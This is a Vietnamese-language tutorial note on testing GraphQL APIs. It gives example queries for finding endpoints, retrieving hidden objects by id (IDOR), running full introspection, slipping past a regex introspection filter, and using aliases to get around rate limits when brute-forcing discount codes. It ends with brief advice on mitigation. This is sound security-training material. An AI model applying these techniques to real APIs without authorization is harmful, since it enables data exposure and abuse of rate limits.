

# GraphQL API vulnerabilities
Ở module này các lỗ hổng bảo mật GraphQL thường phát sinh do lỗi trong quá trình triển khai và thiết kế. Cho phép kẻ tấn công thu thập API để thu thập thông tin về lược đồ. <br>
Trong phần này, chúng ta cùng xem xét cách kiểm thử API GraphQL. 

## Tìm các điểm cuối của GraphQL
Tìm các điểm cuối API GraphQL phổ biến trước khi đi vào thực hiện
### Truy vấn phổ quát
Nếu chúng ta gửi yêu cầu <br>
```json
query{__typename}
```
vào điểm cuối API GraphQL chúng ta kiểm thử chuỗi đó sẽ được bao gồm <br>
```json
{
    "data":{
        "__typename": "query"
    }
}
```
Và lúc này nó sẽ làm gọi truy vấn phổ quát vì mỗi điểm cuối GraphQL đều có một trường dành riêng được gọi `__typename` là trường trả về đối tượng và kiểu truy vấn <br>
### Một số điểm cuối phổ biến
> /graphql <br>
> /api <br>
> /api/graphql <br>
> /graphql/api <br>
> /graphql/graphql <br>
Có thể thêm các trường `/v1` vào mỗi đường dẫn 
### Lợi dụng để truy cập IDOR
Đôi khi các API sử dụng các tham số để truy cập trực tiếp vào các đối tượng, nó có thể dễ dàng gây ra lỗ hổng kiểm soát truy cập. Người dùng cso thể truy cập thông tin mà chúng không được phép.
### Thực hiện demo với truy vấn
Truy vấn sau sử dụng để yêu cầu danh sách sản phẩm của một cửa hàng trực tuyến:
```json
 query {
        products {
            id
            name
            listed
        }
    }
```
Và lúc này danh sách sản phẩm trả về chỉ chứa các sản phẩm 
```json
 {
        "data": {
            "products": [
                {
                    "id": 1,
                    "name": "Product 1",
                    "listed": true
                },
                {
                    "id": 2,
                    "name": "Product 2",
                    "listed": true
                },
                {
                    "id": 4,
                    "name": "Product 4",
                    "listed": true
                }
            ]
        }
    }
```
Từ thông tin này chúng ta có thể suy ra được Product với `id: 3` được ẩn  bằng cách đó có thể sử dụng lược đồ để truy xuất sản phẩm như sau:
```json
query{
    product(id: 3){
        id
        name
        listed
    }
}
```
Response:
```json
{
        "data": {
            "product": {
            "id": 3,
            "name": "Product 3",
            "listed": no
            }
        }
    }
```
## Khám phá thông tin lược đồ
Bước tiếp theo trong quá trình kiểm thử API là thu thập thông tin về lược đồ cơ bản bằng cách sử dụng các truy vấn `nội suy`. Nội suy là một chức năng tích hợp sẵn của GraphQL cho phép truy vấn máy chủ để lấy thông tin lược đồ.
### Phương pháp tự quan sát
Có thể sử dụng truy vấn `__schema` để quan sát thông tin lược đồ
### Khám phá nội tâm bên trong
```json
{
        "query": "{__schema{queryType{name}}}"
}
```
### Thực hiện truy vấn nội soi toàn diện cục bộ
Bước tiếp chúng ta có thể chạy truy vấn phân tích toàn diện đối với điểm cuối để thu thạp càng nhiều thông tin
```json
 #Full introspection query

    query IntrospectionQuery {
        __schema {
            queryType {
                name
            }
            mutationType {
                name
            }
            subscriptionType {
                name
            }
            types {
             ...FullType
            }
            directives {
                name
                description
                args {
                    ...InputValue
            }
            onOperation  #Often needs to be deleted to run query
            onFragment   #Often needs to be deleted to run query
            onField      #Often needs to be deleted to run query
            }
        }
    }

    fragment FullType on __Type {
        kind
        name
        description
        fields(includeDeprecated: true) {
            name
            description
            args {
                ...InputValue
            }
            type {
                ...TypeRef
            }
            isDeprecated
            deprecationReason
        }
        inputFields {
            ...InputValue
        }
        interfaces {
            ...TypeRef
        }
        enumValues(includeDeprecated: true) {
            name
            description
            isDeprecated
            deprecationReason
        }
        possibleTypes {
            ...TypeRef
        }
    }

    fragment InputValue on __InputValue {
        name
        description
        type {
            ...TypeRef
        }
        defaultValue
    }

    fragment TypeRef on __Type {
        kind
        name
        ofType {
            kind
            name
            ofType {
                kind
                name
                ofType {
                    kind
                    name
                }
            }
        }
    }
```
## Vượt qua các cơ chế phòng vệ nội quan của GraphQL
Nếu chúng ta không thể chạy truy vấn nội suy của API mà chúng ta đang kiểm thử, có thể chèn các ký tự đặc biệt `__schema` <br>
Và lúc này các nhà phát triển vô hiệu hóa tính năng tự kiểm tra nội bộ, họ có thể sử dụng biểu thức chính quy regex loại bỏ `__schema` <br>
Bằng cách bỏ qua với nội suy <br>
```json
{
        "query": "query{__schema
        {queryType{name}}}"
}
```
Có thể bị chặn đối với phương thức POST bằng cách đó chúng ta có thể chuyển đổi sang GET với kiểu nội dung `x-www-forrm-urlencode`
```HTTP
GET /graphql?query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D
```
## Vượt qua giới hạn tốc độ bằng cách sử dụng bí danh
Đôi khi các đối tượng GraphQL không thể chứa nhiều thuộc tính có cùng tên. Bí danh cho phehsp vượt qua hạn chế này bằng cách đặt tên rõ ràng cho các thuộc tính muốn API trả về. <br>
Ví dụ dưới đây có thể thấy một loạt các truy vấn được đặt bí danh để kiểm tra xem mã giảm giá của cửa hàng có hợp lệ hay không. <br>
Thao tác có thể bỏ qua giới hạn tốc độ vì nó là yêu cầu HTTP duy nhất, có thể sử dụng kiểm tra một số lượng lớn mã giảm giá. <br>
```json
query isValidDiscount($code: Int) {
        isvalidDiscount(code:$code){
            valid
        }
        isValidDiscount2:isValidDiscount(code:$code){
            valid
        }
        isValidDiscount3:isValidDiscount(code:$code){
            valid
        }
    }
```
## GraphQL phát sinh kèm CSRF
Lỗ hổng CSRF có thể phát sinh khi điểm cuối GraphQL không xác thực kiểu nội dung của các yêu cầu được gửi đến và không có mã thông báo CSRF nào được triển khai. <br>
## Ngăn chặn các cuộc tấn công vét cạn mật khẩu GraphQL
Để phòng chống các cuộc tấn công bằng vũ lực:
> Giới hạn độ sâu truy vấn của API. Thuật ngữ "độ sâu truy vấn" đề cập đến số cấp độ lồng nhau trong một truy vấn. Các truy vấn lồng nhau quá nhiều có thể gây ra những ảnh hưởng đáng kể đến hiệu năng và tiềm ẩn nguy cơ bị tấn công từ chối dịch vụ (DoS) nếu chúng được chấp nhận. Bằng cách giới hạn độ sâu truy vấn mà API chấp nhận, bạn có thể giảm thiểu khả năng xảy ra điều này. <br>
> Cấu hình giới hạn hoạt động. Giới hạn hoạt động cho phép bạn cấu hình số lượng tối đa các trường duy nhất, bí danh và trường gốc mà API của bạn có thể chấp nhận. <br>
> Cấu hình số byte tối đa mà một truy vấn có thể chứa <br>
> Hãy cân nhắc việc triển khai phân tích chi phí trên API của bạn. Phân tích chi phí là một quy trình mà ứng dụng thư viện xác định chi phí tài nguyên liên quan đến việc chạy các truy vấn khi chúng được nhận. Nếu một truy vấn quá phức tạp về mặt tính toán để chạy, API sẽ bỏ qua nó. <br>
